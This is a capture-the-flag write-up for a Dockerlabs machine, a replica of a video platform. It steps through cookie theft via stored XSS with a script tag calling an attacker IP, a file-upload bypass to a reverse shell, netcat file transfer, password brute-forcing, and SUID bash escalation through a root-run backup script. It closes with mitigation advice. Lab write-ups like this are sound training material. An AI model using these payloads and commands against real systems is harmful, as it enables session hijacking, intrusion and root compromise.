# BaluHome - Dockerlabs Writeup (Difficulty: Medium)

## 1. Reconnaissance and Scanning (Enumeration)
The laboratory begins with a port and service scan using `nmap`, identifying only port `3000` active with an HTTP service:



Upon visiting the web service, a YouTube replica platform is identified. Several sections are visible, such as a profile registration system and a video viewing section (which is not fully implemented).




## 2. Initial Access (Stored XSS & Session Hijacking)
To interact with the platform's functionalities, a new user is registered with the credentials `test:test`:



After logging in, an internal messaging function is identified, which reveals potential system users, including `admin`:



Although the platform features a video upload utility, initial testing did not reveal any directly exploitable vulnerabilities during the upload phase:


However, after a video is uploaded, the system allows users to add subtitles. This input field is verified to be vulnerable to Stored Cross-Site Scripting (Stored XSS), which was confirmed by injecting a simple payload such as `alert(0)`:




Once the Stored XSS vulnerability is confirmed, an attack vector is designed to compromise the administrator account. The objective is to send the video link containing the XSS injection to the `admin` user through the internal messaging system to hijack their session cookie.

The XSS payload used performs an external request to the attacker's server to exfiltrate the session cookie:

```html
<script src="http://[IP_ADDRESS]/?c="></script>
```

*(Note: This script performs an HTTP GET request to the attacker-controlled server; in practical cookie theft scenarios via XSS, the payload typically exfiltrates `document.cookie` by appending it to the query string).*

Before sending the link to the administrator, a temporary HTTP server is started on the attacker's machine using Python on port 80:
```bash
python3 -m http.server 80
```

After sending the message with the video link to the administrator, the victim's browser automatically loads the malicious script when parsing the subtitles, exfiltrating the session cookie back to the Python HTTP server console:




The captured session cookie is Base64-encoded. To decode it and obtain the raw value, the following command is executed on the attacker's machine:
```bash
echo "<base64_cookie>" | base64 -d
```

Once decoded, the session cookie is replaced in the browser's developer tools, successfully hijacking the session and granting access to the administrator's profile:



## 3. Arbitrary File Upload & Remote Code Execution (RCE)
The administrator's profile features an exclusive utility for managing video thumbnails. Although the application attempts to restrict uploads to images only, this control can be bypassed by intercepting the HTTP request using Burp Suite and modifying the file's `Content-Type` header to `image/jpg`.

A scripting file (JavaScript) designed to establish a reverse shell connection to the attacker's machine on port `4444` is uploaded, bypassing the file type restriction:






To trigger the script and obtain an interactive shell on our machine (which should be listening via Netcat on port 4444: `nc -lvnp 4444`), the video where the modified thumbnail was uploaded is executed, yielding a reverse shell as the `www-data` web user:



## 4. Lateral Movement (Brute-Forcing)
After obtaining the reverse shell and upgrading the terminal to a stable interactive TTY, local system enumeration is performed. The local user `balutin` is identified, representing the target for lateral movement.

To obtain `balutin`'s credentials, a password brute-force attack is conducted. The `rockyou.txt` wordlist and a brute-force script (`force.sh`) cloned from the public repository <https://github.com/nohh022/bruteForce.git> are transferred to the compromised machine. The file transfer is performed using Netcat:

On the receiver (victim machine):
```bash
nc -lvnp [PORT] > filename
```
On the sender (attacker machine):
```bash
nc [IP] [PORT] < filename
```



Once the files are transferred, execution permissions are granted to the script (`chmod +x force.sh`) and the attack is launched:



After a short period, the script successfully brute-forces the password for user `balutin`:



Using the recovered credentials, user migration is performed via `su balutin`, accessing an interactive shell under this security context:



Checking the user's groups with the `id` command reveals that `balutin` belongs to the `mantenimiento` (maintenance) group:



## 5. Privilege Escalation
A thorough search for files associated with the `mantenimiento` group reveals a backup script called `backup.sh` located in the `/opt/balutube-backup/` directory.

Since `balutin` (as a member of `mantenimiento`) has write permissions on this file, and knowing that this script is executed periodically by `root` (likely via a scheduled cron job), this misconfiguration can be abused by injecting a command to set the SUID bit on the `/bin/bash` binary:

```bash
echo "chmod u+s /bin/bash" >> /opt/balutube-backup/backup.sh
```

Upon the next automatic execution of the backup script, the `/bin/bash` binary gains SUID privileges. Finally, we run bash in privileged mode to obtain full, unrestricted root access:

```bash
bash -p
```



---

## 6. Mitigation Recommendations

To secure the environment and patch the vulnerabilities exploited throughout this laboratory, the following technical mitigations are recommended:

1. **Mitigation for Stored XSS**:
   Implement strict input sanitization and output encoding for all user-supplied input fields, such as subtitles. It is highly recommended to encode special characters into HTML entities (e.g., converting `<` to `&lt;` and `>` to `&gt;`) and deploy a robust Content Security Policy (CSP) to restrict unauthorized script execution and external script loading.
2. **Mitigation for Session Hijacking (Insecure Cookie Handling)**:
   Configure appropriate security attributes on session cookies. Specifically, the session cookie must have the `HttpOnly` flag enabled to prevent access via client-side scripting (such as JavaScript/XSS). Additionally, apply the `Secure` flag to ensure cookies are only transmitted over encrypted HTTPS connections, and the `SameSite=Strict` attribute to protect against Cross-Site Request Forgery (CSRF).
3. **Mitigation for Arbitrary File Upload (RCE)**:
   Implement robust server-side file validation. Do not rely solely on the client-provided `Content-Type` header, as it is easily forged. The system should validate file extensions against a strict whitelist, inspect file signatures ("magic bytes"), rename uploaded files to random strings upon storage, and store uploaded assets outside the web root or disable script execution (e.g., PHP, JS) in upload directories via web server configuration (e.g., Nginx, Apache).
4. **Mitigation for Brute-Force Attacks and Weak Passwords**:
   Enforce a strong password policy (including minimum length, uppercase/lowercase letters, digits, and special characters) for all local system accounts such as `balutin`. Furthermore, implement login attempt limits or temporary account lockouts, and deploy tools like `Fail2ban` on local/SSH authentication services to automatically block IP addresses performing brute-force attempts.
5. **Mitigation for Privilege Escalation via Writable Scripts**:
   Apply the Principle of Least Privilege (PoLP). Scripts executed by the `root` user must not be writable by low-privilege users or groups such as `mantenimiento` (avoid write permissions like `775` or `777`). The file ownership of `/opt/balutube-backup/backup.sh` must be set to `root:root` with strict read and execute permissions only (e.g., `755` or `700`). If maintenance members need to alter script functions, their modifications should undergo an integrity check process, or run via controlled `sudo` entries with limited capabilities.
